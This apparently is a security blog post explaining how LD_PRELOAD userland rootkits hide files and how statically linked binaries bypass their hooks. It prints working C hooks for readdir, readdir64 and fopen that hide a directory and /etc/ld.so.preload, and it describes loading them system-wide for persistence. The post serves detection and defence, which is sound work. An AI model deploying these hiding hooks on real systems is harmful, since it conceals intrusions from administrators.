 ```yaml
---
title: "Bypassing LD_PRELOAD Rootkits Is Easy"
date: 2025-05-14T19:42:06-04:00
draft: true
description: Learn how to bypass LD_PRELOAD rootkits.
categories: [Malware Bypass]
tags: [Rootkit]
author: 0xMatheuZ
---
```


## Introduction

In this post, I'm going to get into a really cool topic, which is how to bypass the hooks used by LD_PRELOAD rootkits, a technique that is effective against most, if not all, of them.

##  LD_PRELOAD

`LD_PRELOAD` is an environment variable used by dynamic linkers on Unix-like systems (such as /lib64/ld-linux-x86-64.so.2 on x86_64 Linux) to force specific shared libraries to be loaded before any others during program execution.

This technique allows you to "hook" functions from standard libraries, such as libc, without modifying the program binary, and is therefore widely used both for debugging and for offensive techniques such as user space rootkits.

When an ELF binary is executed, the dynamic linker resolves external function calls using structures like the Procedure Linkage Table (PLT) and Global Offset Table (GOT). By preloading a custom library via LD_PRELOAD, attackers can override functions like readdir() or fopen().

Example:

```bash
LD_PRELOAD=./rootkitresearchers.so ls
```

> /etc/ld.so.preload  

Besides the environment variable, the /etc/ld.so.preload file can also be used to persistently load a library into all processes on the system (including root). This file is read before any environment variable.

## Installing and Hiding Directory with Rootkit

To demonstrate this, I'll use a simple LD_PRELOAD rootkit that hooks the `readdir`, `readdir64`, and `fopen` functions to change the behavior of file and directory listings. The  code is shown below.

[Full source](https://github.com/MatheuZSecurity/Rootkit/blob/main/Ring3/hiding-directory/hide.c)

```c
struct dirent *(*orig_readdir)(DIR *dirp);
struct dirent *readdir(DIR *dirp)
{
    if (!orig_readdir)
        orig_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *entry;
    while ((entry = orig_readdir(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This snippet above hooks into the readdir function, which is responsible for listing files in a directory. It uses a pointer orig_readdir to store the address of the original function, retrieved with dlsym(RTLD_NEXT, "readdir"). Then, in a loop, it calls the original function to get each entry in the directory, but filters out (ignores) entries whose name is equal to "secret" or "ld.so.preload". Thus, these entries never appear to the program that called readdir. When there are no more visible entries, it returns NULL.

```c
struct dirent64 *(*orig_readdir64)(DIR *dirp);
struct dirent64 *readdir64(DIR *dirp)
{
    if (!orig_readdir64)
        orig_readdir64 = dlsym(RTLD_NEXT, "readdir64");

    struct dirent64 *entry;
    while ((entry = orig_readdir64(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This is the same logic but for the 64-bit version readdir64.

```c
FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
    if (!orig_fopen)
        orig_fopen = dlsym(RTLD_NEXT, "fopen");

    if (strstr(pathname, HIDDEN_FILE) != NULL) {
        errno = ENOENT;
        return NULL;
    }

    return orig_fopen(pathname, mode);
}
```

This fopen hook hides access to specific files by returning a ‘file not found’ error (ENOENT) if the path contains keywords like ‘ld.so.preload’.

Now let's compile and load it into `/etc/ld.so.preload`

![imgur](https://i.imgur.com/9Id2UUt.png)

Once loaded, we can test creating a directory named `secret`, and see if it is hidden from ls.

![imgur](https://i.imgur.com/NAUR8Nl.png)

![imgur](https://i.imgur.com/inkluye.png)

As expected, it was hidden from ls.

## [Theory] Breaking LD_PRELOAD rootkits

Here’s something interesting: rootkits that use the LD_PRELOAD technique depend ENTIRELY on the Linux dynamic loader (ld-linux.so) to "inject" their malicious libraries before the standard system libraries, such as libc. But does this work with all programs? 

The short and quick answer is: No!

> Why does LD_PRELOAD work, and why does it sometimes not work?

LD_PRELOAD, as explained in previous topics, is an environment variable used by ld-linux.so to load extra libraries before others, which allows it to intercept functions from standard libraries (such as libc). In other words, you can replace system functions, such as those that list files or open files, with customized versions, which is perfect for hiding directories or files, for example.

But for this to work, the program has to use dynamic loading and depend on ld-linux.so to resolve these functions.

> Why do static binaries break this idea?

Statically linked binaries are "self-contained". They incorporate all necessary code from their dependencies (such as libc) directly into the executable. As a result, they do not invoke the dynamic linker at runtime, so LD_PRELOAD and /etc/ld.so.preload are ignored.

In other words, LD_PRELOAD and the /etc/ld.so.preload file are simply not used by these binaries. This means that rootkits based on these techniques have no effect on them, practically useless.

This is one of the most effective ways to bypass these rootkits.

## [Practice] Breaking LD_PRELOAD rootkits

With the rootkit loaded in /etc/ld.so.preload, the secret directory is hidden from commands like ls, which depend on libc and the dynamic loader. 

But it is easy to bypass this, for example: just compile a static binary, like a simple [getdents64.c](https://raw.githubusercontent.com/finallyjustice/sample/refs/heads/master/c/getdents64.c)

> gcc getdents64.c -o getdents64 --static

When using ldd getdents64, we will see that it does not load any dynamic dependencies, unlike ldd /bin/ls, which depends on libc. Since static binaries do not use the dynamic linker, LD_PRELOAD is completely ignored, and so is the rootkit.

![imgur](https://i.imgur.com/fv0N05S.png)

Bypassing LD_PRELOAD rootkits is simply very easy.

## Conclusion

LD_PRELOAD rootkits are actually very good at hiding artifacts in user space, especially because of their simplicity and the fact that they are more stable than LKM rootkits. However, as we have shown in this post, they are not infallible. Simple techniques, such as the use of static binaries, can easily bypass the hooks applied by the rootkit, precisely because they do not depend on the dynamic loader and the external libc.

If you enjoyed this content and want to discuss similar techniques, feel free to join our Discord community. See you next time!

> Rootkit Researchers

> https://discord.gg/66N5ZQppU7